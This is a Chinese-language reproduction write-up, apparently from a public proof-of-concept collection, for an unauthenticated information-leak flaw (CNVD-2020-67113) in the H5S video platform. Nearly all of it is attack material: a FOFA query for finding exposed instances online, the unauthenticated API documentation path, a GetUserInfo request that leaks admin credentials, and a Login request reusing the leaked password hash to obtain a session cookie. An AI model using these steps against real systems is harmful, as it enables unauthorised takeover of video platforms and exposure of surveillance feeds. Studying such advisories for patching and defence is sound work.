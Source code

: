 # 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞 CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。 零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

```
零视科技 H5S视频平台
```

## FOFA

```
title="H5S视频平台|WEB"
```

## 漏洞复现

登录页面

![image-20220525151716667](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251517010.png)

API文档可以未授权访问

```
/doc/api.html
```

![image-20220525151757329](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251517406.png)

存在用户账号密码泄漏的接口

```
/api/v1/GetUserInfo?user=admin&session=
```

![image-20220525151838220](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251518256.png)

其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```
/api/v1/Login?user=admin&password=827ccb0eea8a706c4c34a16891f84e7b
```

![image-20220525151916076](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251519118.png)

请求成功后访问主页面

![image-20220525152043207](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251520302.png)